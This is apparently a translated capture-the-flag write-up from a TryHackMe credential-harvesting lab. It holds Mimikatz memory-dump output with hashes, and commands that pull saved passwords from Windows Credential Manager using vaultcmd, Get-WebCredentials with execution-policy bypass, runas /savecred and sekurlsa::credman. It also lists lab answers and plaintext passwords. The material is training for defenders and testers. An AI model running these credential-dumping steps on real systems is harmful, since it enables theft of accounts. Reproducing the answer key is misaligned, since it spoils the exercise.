        wdigest :
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * Password : (null)
        kerberos :
        * Username : CREDS-HARVESTIN$
        * Domain   : thm.red
        * Password : 98 02 46 a9 de 7e 7f 8c 77 41 cb 14 86 e6 7d e2 dd 79 9f 12 9f 63 15 81 b2 2b 91 7c fe dc 09 5b a4 63 0e e9 d4 d6 e6 53 f1 f8 cd 24 2f 0a e9 25 9c 63 2e d7 a5 97 85 67 cf a9 f1 e6 3e 7a c8 ba 16 f1 a7 fe ec 39 ac bc 31 3f 39 3b cb a9 00 38 6e e7 53 45 98 2c f5 0d 5f 23 a1 03 db e5 38 d8 97 dd 99 d5 ee 84 35 b5 d5 16 06 93 c7 92 6e e7 d7 40 d6 cc 21 20 3b 29 0f da 4e 58 7b 62 5c 0c d4 3c 57 e6 48 4c b8 91 db ba 65 10 49 a2 e1 c2 9b 76 59 e3 5c 42 80 2a d2 05 37 78 e3 64 87 03 13 4e 4b 82 19 c2 83 f2 0d a4 8a 5e 00 80 b3 c0 98 56 0c 5b 88 ba 81 51 77 4d 3b 5a 95 24 cc 25 95 15 63 09 62 a0 df 5e 6b c5 5e 91 d8 ef 51 cc 6c d6 55 e4 a1 53 19 28 2f 21 95 5b b0 53 eb 30 2e 98 53 88 6f 39 f3 a9 10 5b b4 90 60 51 8f f8
        ssp :
        credman :

Authentication Id : 0 ; 676979 (00000000:000a5473)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 12/13/2023 11:24:13 AM
SID               : S-1-5-96-0-2

        msv :
        [00000003] Primary
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * NTLM     : 6e17a79802aa273625c644ed8d95b6e3
        * SHA1     : 722056d8f1b29929bb8c00f034fbe06a2c9f3f46
        tspkg :
        wdigest :
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * Password : (null)
        kerberos :
        * Username : CREDS-HARVESTIN$
        * Domain   : thm.red
        * Password : 98 02 46 a9 de 7e 7f 8c 77 41 cb 14 86 e6 7d e2 dd 79 9f 12 9f 63 15 81 b2 2b 91 7c fe dc 09 5b a4 63 0e e9 d4 d6 e6 53 f1 f8 cd 24 2f 0a e9 25 9c 63 2e d7 a5 97 85 67 cf a9 f1 e6 3e 7a c8 ba 16 f1 a7 fe ec 39 ac bc 31 3f 39 3b cb a9 00 38 6e e7 53 45 98 2c f5 0d 5f 23 a1 03 db e5 38 d8 97 dd 99 d5 ee 84 35 b5 d5 16 06 93 c7 92 6e e7 d7 40 d6 cc 21 20 3b 29 0f da 4e 58 7b 62 5c 0c d4 3c 57 e6 48 4c b8 91 db ba 65 10 49 a2 e1 c2 9b 76 59 e3 5c 42 80 2a d2 05 37 78 e3 64 87 03 13 4e 4b 82 19 c2 83 f2 0d a4 8a 5e 00 80 b3 c0 98 56 0c 5b 88 ba 81 51 77 4d 3b 5a 95 24 cc 25 95 15 63 09 62 a0 df 5e 6b c5 5e 91 d8 ef 51 cc 6c d6 55 e4 a1 53 19 28 2f 21 95 5b b0 53 eb 30 2e 98 53 88 6f 39 f3 a9 10 5b b4 90 60 51 8f f8
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : CREDS-HARVESTIN$
Domain            : THM
Logon Server      : (null)
Logon Time        : 12/13/2023 11:22:44 AM
SID               : S-1-5-20

        msv :
        [00000003] Primary
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * NTLM     : 6e17a79802aa273625c644ed8d95b6e3
        * SHA1     : 722056d8f1b29929bb8c00f034fbe06a2c9f3f46
        tspkg :
        wdigest :
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * Password : (null)
        kerberos :
        * Username : creds-harvestin$
        * Domain   : THM.RED
        * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 34568 (00000000:00008708)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 12/13/2023 11:22:43 AM
SID               : S-1-5-96-0-1

        msv :
        [00000003] Primary
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * NTLM     : 443e64439d4b7fe780da17fc04a3942a
        * SHA1     : 7a71c63de7dcfce533ce4afff91639743461aa6a
        tspkg :
        wdigest :
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * Password : (null)
        kerberos :
        * Username : CREDS-HARVESTIN$
        * Domain   : thm.red
        * Password : 7f 35 fb be 30 0b a0 29 84 77 92 45 16 8b ed 11 a3 0d 4e f5 ff cc 8e 61 d0 f3 f4 05 d5 b8 a9 57 f3 2a 25 f9 5f 74 d7 eb 3f 14 cd e9 21 96 d6 c8 59 17 8b 79 ae 4d c2 88 57 09 84 b1 87 2f 2b 18 44 95 d2 80 f6 90 24 57 79 37 dd 79 57 19 9f 91 d8 99 0f 53 5b c2 54 71 48 80 84 b0 75 77 2e 0e 40 a2 cb 87 38 50 37 2e 84 15 d2 74 4e db 29 11 f9 36 9e af 78 7b 53 c7 14 f8 2a 25 c9 18 f0 65 25 d3 22 84 a9 a4 7b 92 93 34 9a 49 e9 fc 76 56 32 35 e3 f2 8a 12 c3 30 e1 26 0a 67 ce 08 28 76 81 74 f4 55 fd 7b e4 0a 5c 8d 70 22 8a 6b 27 ea 7c d8 da 09 0b e5 4e 89 09 5b 21 1b 63 21 ec b2 48 24 95 24 8f 59 0c 05 fd 54 9d 4e c6 99 67 69 b2 de 76 20 c9 a1 06 a2 e6 fb 8c 7b 14 86 9d 4c 0f 10 2b b7 6d df d2 f3 6e cf d4 b2 71 da 06 2d
        ssp :
        credman :

Authentication Id : 0 ; 34469 (00000000:000086a5)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 12/13/2023 11:22:43 AM
SID               : S-1-5-96-0-0

        msv :
        [00000003] Primary
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * NTLM     : 443e64439d4b7fe780da17fc04a3942a
        * SHA1     : 7a71c63de7dcfce533ce4afff91639743461aa6a
        tspkg :
        wdigest :
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * Password : (null)
        kerberos :
        * Username : CREDS-HARVESTIN$
        * Domain   : thm.red
        * Password : 7f 35 fb be 30 0b a0 29 84 77 92 45 16 8b ed 11 a3 0d 4e f5 ff cc 8e 61 d0 f3 f4 05 d5 b8 a9 57 f3 2a 25 f9 5f 74 d7 eb 3f 14 cd e9 21 96 d6 c8 59 17 8b 79 ae 4d c2 88 57 09 84 b1 87 2f 2b 18 44 95 d2 80 f6 90 24 57 79 37 dd 79 57 19 9f 91 d8 99 0f 53 5b c2 54 71 48 80 84 b0 75 77 2e 0e 40 a2 cb 87 38 50 37 2e 84 15 d2 74 4e db 29 11 f9 36 9e af 78 7b 53 c7 14 f8 2a 25 c9 18 f0 65 25 d3 22 84 a9 a4 7b 92 93 34 9a 49 e9 fc 76 56 32 35 e3 f2 8a 12 c3 30 e1 26 0a 67 ce 08 28 76 81 74 f4 55 fd 7b e4 0a 5c 8d 70 22 8a 6b 27 ea 7c d8 da 09 0b e5 4e 89 09 5b 21 1b 63 21 ec b2 48 24 95 24 8f 59 0c 05 fd 54 9d 4e c6 99 67 69 b2 de 76 20 c9 a1 06 a2 e6 fb 8c 7b 14 86 9d 4c 0f 10 2b b7 6d df d2 f3 6e cf d4 b2 71 da 06 2d
        ssp :
        credman :

Authentication Id : 0 ; 34403 (00000000:00008663)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 12/13/2023 11:22:43 AM
SID               : S-1-5-96-0-0

        msv :
        [00000003] Primary
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * NTLM     : 6e17a79802aa273625c644ed8d95b6e3
        * SHA1     : 722056d8f1b29929bb8c00f034fbe06a2c9f3f46
        tspkg :
        wdigest :
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * Password : (null)
        kerberos :
        * Username : CREDS-HARVESTIN$
        * Domain   : thm.red
        * Password : 98 02 46 a9 de 7e 7f 8c 77 41 cb 14 86 e6 7d e2 dd 79 9f 12 9f 63 15 81 b2 2b 91 7c fe dc 09 5b a4 63 0e e9 d4 d6 e6 53 f1 f8 cd 24 2f 0a e9 25 9c 63 2e d7 a5 97 85 67 cf a9 f1 e6 3e 7a c8 ba 16 f1 a7 fe ec 39 ac bc 31 3f 39 3b cb a9 00 38 6e e7 53 45 98 2c f5 0d 5f 23 a1 03 db e5 38 d8 97 dd 99 d5 ee 84 35 b5 d5 16 06 93 c7 92 6e e7 d7 40 d6 cc 21 20 3b 29 0f da 4e 58 7b 62 5c 0c d4 3c 57 e6 48 4c b8 91 db ba 65 10 49 a2 e1 c2 9b 76 59 e3 5c 42 80 2a d2 05 37 78 e3 64 87 03 13 4e 4b 82 19 c2 83 f2 0d a4 8a 5e 00 80 b3 c0 98 56 0c 5b 88 ba 81 51 77 4d 3b 5a 95 24 cc 25 95 15 63 09 62 a0 df 5e 6b c5 5e 91 d8 ef 51 cc 6c d6 55 e4 a1 53 19 28 2f 21 95 5b b0 53 eb 30 2e 98 53 88 6f 39 f3 a9 10 5b b4 90 60 51 8f f8
        ssp :
        credman :

Authentication Id : 0 ; 678122 (00000000:000a58ea)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 12/13/2023 11:24:14 AM
SID               : S-1-5-90-0-2

        msv :
        [00000003] Primary
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * NTLM     : 6e17a79802aa273625c644ed8d95b6e3
        * SHA1     : 722056d8f1b29929bb8c00f034fbe06a2c9f3f46
        tspkg :
        wdigest :
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * Password : (null)
        kerberos :
        * Username : CREDS-HARVESTIN$
        * Domain   : thm.red
        * Password : 98 02 46 a9 de 7e 7f 8c 77 41 cb 14 86 e6 7d e2 dd 79 9f 12 9f 63 15 81 b2 2b 91 7c fe dc 09 5b a4 63 0e e9 d4 d6 e6 53 f1 f8 cd 24 2f 0a e9 25 9c 63 2e d7 a5 97 85 67 cf a9 f1 e6 3e 7a c8 ba 16 f1 a7 fe ec 39 ac bc 31 3f 39 3b cb a9 00 38 6e e7 53 45 98 2c f5 0d 5f 23 a1 03 db e5 38 d8 97 dd 99 d5 ee 84 35 b5 d5 16 06 93 c7 92 6e e7 d7 40 d6 cc 21 20 3b 29 0f da 4e 58 7b 62 5c 0c d4 3c 57 e6 48 4c b8 91 db ba 65 10 49 a2 e1 c2 9b 76 59 e3 5c 42 80 2a d2 05 37 78 e3 64 87 03 13 4e 4b 82 19 c2 83 f2 0d a4 8a 5e 00 80 b3 c0 98 56 0c 5b 88 ba 81 51 77 4d 3b 5a 95 24 cc 25 95 15 63 09 62 a0 df 5e 6b c5 5e 91 d8 ef 51 cc 6c d6 55 e4 a1 53 19 28 2f 21 95 5b b0 53 eb 30 2e 98 53 88 6f 39 f3 a9 10 5b b4 90 60 51 8f f8
        ssp :
        credman :

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 12/13/2023 11:23:06 AM
SID               : S-1-5-17

        msv :
        tspkg :
        wdigest :
        * Username : (null)
        * Domain   : (null)
        * Password : (null)
        kerberos :
        ssp :
        credman :
        Authentication Id : 0 ; 997 (00000000:000003e5)
        Session           : Service from 0
        User Name         : LOCAL SERVICE
        Domain            : NT AUTHORITY
        Logon Server      : (null)
        Logon Time        : 12/13/2023 11:22:46 AM
        SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
        * Username : (null)
        * Domain   : (null)
        * Password : (null)
        kerberos :
        * Username : (null)
        * Domain   : (null)
        * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 63291 (00000000:0000f73b)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 12/13/2023 11:22:46 AM
SID               : S-1-5-90-0-1

        msv :
        [00000003] Primary
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * NTLM     : 443e64439d4b7fe780da17fc04a3942a
        * SHA1     : 7a71c63de7dcfce533ce4afff91639743461aa6a
        tspkg :
        wdigest :
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * Password : (null)
        kerberos :
        * Username : CREDS-HARVESTIN$
        * Domain   : thm.red
        * Password : 7f 35 fb be 30 0b a0 29 84 77 92 45 16 8b ed 11 a3 0d 4e f5 ff cc 8e 61 d0 f3 f4 05 d5 b8 a9 57 f3 2a 25 f9 5f 74 d7 eb 3f 14 cd e9 21 96 d6 c8 59 17 8b 79 ae 4d c2 88 57 09 84 b1 87 2f 2b 18 44 95 d2 80 f6 90 24 57 79 37 dd 79 57 19 9f 91 d8 99 0f 53 5b c2 54 71 48 80 84 b0 75 77 2e 0e 40 a2 cb 87 38 50 37 2e 84 15 d2 74 4e db 29 11 f9 36 9e af 78 7b 53 c7 14 f8 2a 25 c9 18 f0 65 25 d3 22 84 a9 a4 7b 92 93 34 9a 49 e9 fc 76 56 32 35 e3 f2 8a 12 c3 30 e1 26 0a 67 ce 08 28 76 81 74 f4 55 fd 7b e4 0a 5c 8d 70 22 8a 6b 27 ea 7c d8 da 09 0b e5 4e 89 09 5b 21 1b 63 21 ec b2 48 24 95 24 8f 59 0c 05 fd 54 9d 4e c6 99 67 69 b2 de 76 20 c9 a1 06 a2 e6 fb 8c 7b 14 86 9d 4c 0f 10 2b b7 6d df d2 f3 6e cf d4 b2 71 da 06 2d
        ssp :
        credman :

Authentication Id : 0 ; 63273 (00000000:0000f729)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 12/13/2023 11:22:46 AM
SID               : S-1-5-90-0-1

        msv :
        [00000003] Primary
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * NTLM     : 6e17a79802aa273625c644ed8d95b6e3
        * SHA1     : 722056d8f1b29929bb8c00f034fbe06a2c9f3f46
        tspkg :
        wdigest :
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * Password : (null)
        kerberos :
        * Username : CREDS-HARVESTIN$
        * Domain   : thm.red
        * Password : 98 02 46 a9 de 7e 7f 8c 77 41 cb 14 86 e6 7d e2 dd 79 9f 12 9f 63 15 81 b2 2b 91 7c fe dc 09 5b a4 63 0e e9 d4 d6 e6 53 f1 f8 cd 24 2f 0a e9 25 9c 63 2e d7 a5 97 85 67 cf a9 f1 e6 3e 7a c8 ba 16 f1 a7 fe ec 39 ac bc 31 3f 39 3b cb a9 00 38 6e e7 53 45 98 2c f5 0d 5f 23 a1 03 db e5 38 d8 97 dd 99 d5 ee 84 35 b5 d5 16 06 93 c7 92 6e e7 d7 40 d6 cc 21 20 3b 29 0f da 4e 58 7b 62 5c 0c d4 3c 57 e6 48 4c b8 91 db ba 65 10 49 a2 e1 c2 9b 76 59 e3 5c 42 80 2a d2 05 37 78 e3 64 87 03 13 4e 4b 82 19 c2 83 f2 0d a4 8a 5e 00 80 b3 c0 98 56 0c 5b 88 ba 81 51 77 4d 3b 5a 95 24 cc 25 95 15 63 09 62 a0 df 5e 6b c5 5e 91 d8 ef 51 cc 6c d6 55 e4 a1 53 19 28 2f 21 95 5b b0 53 eb 30 2e 98 53 88 6f 39 f3 a9 10 5b b4 90 60 51 8f f8
        ssp :
        credman :

Authentication Id : 0 ; 34548 (00000000:000086f4)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 12/13/2023 11:22:43 AM
SID               : S-1-5-96-0-1

        msv :
        [00000003] Primary
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * NTLM     : 6e17a79802aa273625c644ed8d95b6e3
        * SHA1     : 722056d8f1b29929bb8c00f034fbe06a2c9f3f46
        tspkg :
        wdigest :
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * Password : (null)
        kerberos :
        * Username : CREDS-HARVESTIN$
        * Domain   : thm.red
        * Password : 98 02 46 a9 de 7e 7f 8c 77 41 cb 14 86 e6 7d e2 dd 79 9f 12 9f 63 15 81 b2 2b 91 7c fe dc 09 5b a4 63 0e e9 d4 d6 e6 53 f1 f8 cd 24 2f 0a e9 25 9c 63 2e d7 a5 97 85 67 cf a9 f1 e6 3e 7a c8 ba 16 f1 a7 fe ec 39 ac bc 31 3f 39 3b cb a9 00 38 6e e7 53 45 98 2c f5 0d 5f 23 a1 03 db e5 38 d8 97 dd 99 d5 ee 84 35 b5 d5 16 06 93 c7 92 6e e7 d7 40 d6 cc 21 20 3b 29 0f da 4e 58 7b 62 5c 0c d4 3c 57 e6 48 4c b8 91 db ba 65 10 49 a2 e1 c2 9b 76 59 e3 5c 42 80 2a d2 05 37 78 e3 64 87 03 13 4e 4b 82 19 c2 83 f2 0d a4 8a 5e 00 80 b3 c0 98 56 0c 5b 88 ba 81 51 77 4d 3b 5a 95 24 cc 25 95 15 63 09 62 a0 df 5e 6b c5 5e 91 d8 ef 51 cc 6c d6 55 e4 a1 53 19 28 2f 21 95 5b b0 53 eb 30 2e 98 53 88 6f 39 f3 a9 10 5b b4 90 60 51 8f f8
        ssp :
        credman :

Authentication Id : 0 ; 31605 (00000000:00007b75)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 12/13/2023 11:22:32 AM
SID               :

        msv :
        [00000003] Primary
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * NTLM     : 6e17a79802aa273625c644ed8d95b6e3
        * SHA1     : 722056d8f1b29929bb8c00f034fbe06a2c9f3f46
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : CREDS-HARVESTIN$
Domain            : THM
Logon Server      : (null)
Logon Time        : 12/13/2023 11:22:32 AM
SID               : S-1-5-18

        msv :
        tspkg :
        wdigest :
        * Username : CREDS-HARVESTIN$
        * Domain   : THM
        * Password : (null)
        kerberos :
        * Username : creds-harvestin$
        * Domain   : THM.RED
        * Password : (null)
        ssp :
        credman :
```

</details>

:::

## Windows Credential Manager - Windows 凭据管理器

这项任务介绍了 Windows 凭据管理器，并讨论了利用它来获取系统凭据的技术。

### 什么是凭证管理器？

凭据管理器是 Windows 的一个功能，用于存储网站、应用程序和网络的登录敏感信息。它包含诸如用户名、密码和网络地址等登录凭据。有四种凭据类别：

- 网络凭据包含存储在 Internet 浏览器或其他应用程序中的身份验证详细信息。
- Windows 凭据包含 Windows 认证详细信息，如 NTLM 或 Kerberos。
- 通用凭据包含基本的身份验证详细信息，例如明文用户名和密码。
- 基于证书的凭据：基于认证的详细信息。

需要注意的是，身份验证详细信息存储在用户文件夹中，不会在 Windows 用户账户之间共享。但是，它们会被缓存在内存中。

### 访问凭证管理器

我们可以通过图形用户界面（控制面板 -> 用户账户 -> 凭据管理器）或命令提示符访问 Windows 凭据管理器。在这项任务中，重点将更多地放在命令提示符场景下，即没有可用图形用户界面的情况下。

<div style={{textAlign:'center'}}>


</div>

我们将使用 Microsoft 凭据管理器的 `vaultcmd` 实用程序。让我们开始列举是否存在任何存储的凭据。首先，我们列出 Windows 目标中当前可用的凭据库。

```shell title="Listing the Available Credentials from the Credentials Manager"
C:\Users\Administrator>vaultcmd /list
Currently loaded vaults:
        Vault: Web Credentials
        Vault Guid:4BF4C442-9B8A-41A0-B380-DD4A704DDB28
        Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

        Vault: Windows Credentials
        Vault Guid:77BC582B-F0A6-4E15-4E80-61736B6F3B29
        Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault
```

默认情况下，Windows 有两个凭据库，一个用于 Web，另一个用于 Windows 机器凭据。上述输出确认了我们有这两个默认的凭据库。

让我们通过运行带有 `/listproperties` 参数的 `vaultcmd` 命令来检查 Web 凭据库中是否有任何存储的凭据。

```shell title="Checking if there Are any Stored Credentials in the'Web Credentials.'"
C:\Users\Administrator>VaultCmd /listproperties:"Web Credentials"
Vault Properties: Web Credentials
Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28
Number of credentials: 1
Current protection method: DPAPI
```

输出显示我们在指定的凭据库中有一个存储的凭据。现在让我们尝试列出有关存储凭据的更多信息，如下所示：

```shell title="Listing Credentials Details for'Web Credentials'"
C:\Users\Administrator>VaultCmd /listcreds:"Web Credentials"
Credentials in vault: Web Credentials

Credential schema: Windows Web Password Credential
Resource: internal-app.thm.red
Identity: THMUser Saved By: MSEdge
Hidden: No
Roaming: Yes
```

### 凭证转储

VaultCmd 无法显示密码，但我们可以依赖其他 PowerShell 脚本，比如 [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1) ，它已经包含在附加的虚拟机中。

确保使用绕过策略来执行 PowerShell，以将其导入为模块，如下所示：

```shell title="Getting Clean-text Password from Web Credentials"
C:\Users\Administrator>powershell -ex bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> Import-Module C:\Tools\Get-WebCredentials.ps1
PS C:\Users\Administrator> Get-WebCredentials

UserName  Resource             Password     Properties
--------  --------             --------     ----------
THMUser internal-app.thm.red Password! {[hidden, False], [applicationid, 00000000-0000-0000-0000-000000000000], [application, MSEdge]}
```

输出显示我们获取了访问内部应用程序的用户名和密码。

### RunAs

利用存储的凭据的另一种方法是使用 RunAs。RunAs 是一个命令行内置工具，允许以不同用户权限运行 Windows 应用程序或工具。RunAs 工具有各种命令参数可用于 Windows 系统。`/savecred` 参数允许你将用户的凭据保存在 Windows 凭据管理器中（在 Windows 凭据部分）。因此，下次以相同用户身份执行时，runas 将不会要求输入密码。

让我们将其应用于附加的 Windows 机器。另一种列举存储的凭据的方法是使用 `cmdkey` ，它是一个用于创建、删除和显示存储的 Windows 凭据的工具。通过提供 `/list` 参数，我们可以显示所有存储的凭据，或者可以指定要显示更多详细信息的凭据 `/list:computername` 。

```shell title="Enumerating for Stored Windows Credentials"
C:\Users\thm>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=thm\thm-local
    Type: Domain Password
    User: thm\thm-local
```

输出显示我们有一个域密码存储在 `thm\thm-local` 用户下。需要注意的是，存储的凭据也可能是针对其他服务器的。现在让我们使用 runas 以 `thm-local` 用户身份执行 Windows 应用程序。

```shell title="Run CMD.exe As a User with the /savecred argument"
C:\Users\thm>runas /savecred /user:THM.red\thm-local cmd.exe
Attempting to start cmd.exe as user "THM.red\thm-local" ...
```

一个新的 cmd.exe 弹出窗口出现，其中包含一个准备使用的命令提示符。现在运行 whoami 命令确认我们正在所需用户下运行。在 `c:\Users\thm-local\Saved Games\flag.txt` 中有一个标志，请尝试读取它并回答下面的问题。

### Mimikatz

Mimikatz 是一个工具，可以从内存中转储存储在凭据管理器中的明文密码。步骤与前一节（内存转储）中所示的类似，但这次我们可以指定仅显示凭据管理器部分。

```shell title="Dumping Memory for Credentials Manager"
C:\Users\Administrator>c:\Tools\Mimikatz\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman
```

把这个技术应用到附加的机器上，并回答下面的问题。

在这个任务中讨论的技术也可以通过其他工具来实现，比如 Empire、Metasploit 等等。你可以进行自己的研究以扩展你的知识。

:::info Answer the questions below

使用技术从 Windows 凭据管理器中提取明文密码。THMuser 在 internal-app.thm.red 上的密码是什么？

<details>

<summary> 具体操作步骤 </summary>

使用 Powershell 加载模块查看凭据

```shell
PS C:\Tools\Mimikatz> powershell -ex bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Tools\Mimikatz> Import-Module C:\Tools\Get-WebCredentials.ps1
PS C:\Tools\Mimikatz> Get-WebCredentials
UserName Resource             Password     Properties
-------- --------             --------     ----------
THMuser  internal-app.thm.red E4syPassw0rd {[hidden, False], [applicationid, 00000000-0000-0000-0000-000000000000], ...
```

</details>

```plaintext
E4syPassw0rd
```

使用 Mimikatz 内存转储 10.10.237.226 SMB 共享的凭据，这些凭据存储在 Windows 凭据保险库中。密码是什么？

<details>

<summary> 具体操作步骤 </summary>

使用 mimikatz 查看凭据

```shell
mimikatz # sekurlsa::credman

Authentication Id: 0; 759898 (00000000:000b985a)
Session: RemoteInteractive from 2
User Name: thm
Domain: THM
Logon Server: CREDS-HARVESTIN
Logon Time: 12/13/2023 11:24:17 AM
SID: S-1-5-21-1966530601-3185510712-10604624-1114
        credman:
        [00000000]
        * Username: thm
        * Domain: 10.10.237.226
        * Password: jfxKruLkkxoPjwe3
        [00000001]
        * Username: thm.red\thm-local
        * Domain: thm.red\thm-local
        * Password: Passw0rd123

Authentication Id: 0; 759585 (00000000:000b9721)
Session: RemoteInteractive from 2
User Name: thm
Domain: THM
Logon Server: CREDS-HARVESTIN
Logon Time: 12/13/2023 11:24:17 AM
SID: S-1-5-21-1966530601-3185510712-10604624-1114
        credman:
        [00000000]
        * Username: thm
        * Domain: 10.10.237.226
        * Password: jfxKruLkkxoPjwe3
        [00000001]
        * Username: thm.red\thm-local
        * Domain: thm.red\thm-local
        * Password: Passw0rd123

Authentication Id: 0; 678103 (00000000:000a58d7)
Session: Interactive from 2
User Name: DWM-2
Domain: Window Manager
Logon Server: (null)
Logon Time: 12/13/2023 11:24:14 AM
SID: S-1-5-90-0-2
        credman :

Authentication Id : 0 ; 677023 (00000000:000a549f)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 12/13/2023 11:24:13 AM
SID               : S-1-5-96-0-2
credman:

Authentication Id : 0 ; 676979 (00000000:000a5473)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 12/13/2023 11:24:13 AM
SID               : S-1-5-96-0-2
credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : CREDS-HARVESTIN$
Domain            : THM
Logon Server      : (null)
Logon Time        : 12/13/2023 11:22:44 AM
SID               : S-1-5-20
credman:

Authentication Id : 0 ; 34568 (00000000:00008708)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 12/13/2023 11:22:43 AM
SID               : S-1-5-96-0-1
credman :

Authentication Id : 0 ; 34469 (00000000:000086a5)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 12/13/2023 11:22:43 AM
SID               : S-1-5-96-0-0
credman :

Authentication Id : 0 ; 34403 (00000000:00008663)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 12/13/2023 11:22:43 AM
SID               : S-1-5-96-0-0
credman:Authentication Id : 0 ; 678122 (00000000:000a58ea)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 12/13/2023 11:24:14 AM
SID               : S-1-5-90-0-2
credman :

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 12/13/2023 11:23:06 AM
SID               : S-1-5-17
credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 12/13/2023 11:22:46 AM
SID               : S-1-5-19
credman :

Authentication Id : 0 ; 63291 (00000000:0000f73b)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 12/13/2023 11:22:46 AM
SID               : S-1-5-90-0-1
credman :

Authentication Id : 0 ; 63273 (00000000:0000f729)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 12/13/2023 11:22:46 AM
SID               : S-1-5-90-0-1
credman :

Authentication Id : 0 ; 34548 (00000000:000086f4)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 12/13/2023 11:22:43 AM
SID               : S-1-5-96-0-1
credman:

Authentication Id : 0 ; 31605 (00000000:00007b75)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 12/13/2023 11:22:32 AM
SID               :
credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : CREDS-HARVESTIN$
Domain            : THM
Logon Server      : (null)
Logon Time        : 12/13/2023 11:22:32 AM
SID               : S-1-5-18
credman :
```

</details>

```plaintext
jfxKruLkkxoPjwe3
```

通过 runas 以 thm-local 用户身份运行 cmd.exe，并读取 "c:\Users\thm-local\Saved Games\flag.txt" 中的标志。标志是什么？

<details>

<summary> 具体操作步骤 </summary>

使用 RunAs 切换到 thm-local 账户

```shell
runas /savecred /user:THM.red\thm-local cmd.exe
```

然后读取文件

```shell
C:\Windows\system32>type "c:\Users\thm-local\Saved Games\flag.txt"
THM{RunA5S4veCr3ds}
```

</details>

